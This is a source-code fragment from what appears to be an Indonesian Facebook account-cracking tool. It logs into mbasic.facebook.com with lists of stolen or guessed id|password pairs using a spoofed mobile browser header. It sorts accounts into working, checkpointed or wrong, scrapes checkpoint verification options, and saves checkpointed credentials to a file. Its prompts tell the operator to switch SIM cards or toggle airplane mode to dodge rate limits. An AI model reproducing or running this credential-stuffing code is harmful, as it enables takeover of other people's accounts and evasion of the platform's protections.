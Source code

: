 				print('\r%s---> %s%s'%(kk,opsii.text,x))
	except Exception as c:
		print('\r%s++++ %s|%s ----> CP       %s'%(b,idf,pw,x))
		print('\r%s---> Tidak Dapat Mengecek Opsi (Cek Login Di Lite/Mbasic)%s'%(u,x))
		open('CP/'+cpc,'a').write(idf+'|'+pw+'\n')
		cp+=1
#--------------------------[ CHECK-OPSI-CHEKPOINT-2 ]----------------#
def cek_opsi():
	c = len(akun)
	hu = 'Terdapat %s Akun Untuk Dicek\nSebelum Mulai, Mode Pesawat/Ubah Kartu Sim Terlebih Dahulu'%(c)
	cetak(nel(hu, title='CEK OPSI'))
	input(u+'['+h+'â€¢'+u+'] Mulai')
	cek = '# PROSES CEK OPSI DIMULAI'
	sol().print(mark(cek, style='green'))
	love = 0
	for kes in akun:
		try:
			try:
				id,pw = kes.split('|')[0],kes.split('|')[1]
			except IndexError:
				time.sleep(2)
				print('\r%s++++ %s ----> Error      %s'%(b,kes,x))
				print('\r%s---> Pemisah Tidak Didukung Untuk Program Ini%s'%(u,x))
				continue
			bi = random.choice([u,k,kk,b,h,hh])
			print('\r%s---> %s/%s ---> { %s }%s'%(bi,love,len(akun),id,x), end=' ');sys.stdout.flush()
			ua = 'Mozilla/5.0 (Linux; Android 11; TECNO KD8) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4755.101 Mobile Safari/537.36'
			ses = requests.Session()
			header = {"Host": "mbasic.facebook.com","cache-control": "max-age=0","upgrade-insecure-requests": "1","origin": "https://mbasic.facebook.com","content-type": "application/x-www-form-urlencoded","user-agent": ua,"accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9","x-requested-with": "mark.via.gp","sec-fetch-site": "same-origin","sec-fetch-mode": "navigate","sec-fetch-user": "?1","sec-fetch-dest": "document","referer": "https://mbasic.facebook.com/login/?next&ref=dbl&fl&refid=8","accept-encoding": "gzip, deflate","accept-language": "id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7"}
			hi = ses.get('https://mbasic.facebook.com')
			ho = sop(ses.post('https://mbasic.facebook.com/login.php', data={'email':id,'pass':pw,'login':'submit'}, headers=header, allow_redirects=True).text,'html.parser')
			if "checkpoint" in ses.cookies.get_dict().keys():
				try:
					jo = ho.find('form')
					data = {}
					lion = ['nh','jazoest','fb_dtsg','submit[Continue]','checkpoint_data']
					for anj in jo('input'):
						if anj.get('name') in lion:
							data.update({anj.get('name'):anj.get('value')})
					kent = sop(ses.post('https://mbasic.facebook.com'+str(jo['action']), data=data, headers=header).text,'html.parser')
					print('\r%s++++ %s|%s ----> CP       %s'%(b,id,pw,x))
					opsi = kent.find_all('option')
					if len(opsi)==0:
						print('\r%s---> Tap Yes / A2F (Cek Login Di Lite/Mbasic%s)'%(hh,x))
					else:
						for opsii in opsi:
							print('\r%s---> %s%s'%(kk,opsii.text,x))
				except:
					print('\r%s++++ %s|%s ----> CP       %s'%(b,id,pw,x))
					print('\r%s---> Tidak Dapat Mengecek Opsi%s'%(u,x))
			elif "c_user" in ses.cookies.get_dict().keys():
				print('\r%s++++ %s|%s ----> OK       %s'%(h,id,pw,x))
			else:
				print('\r%s++++ %s|%s ----> SALAH       %s'%(x,id,pw,x))
			love+=1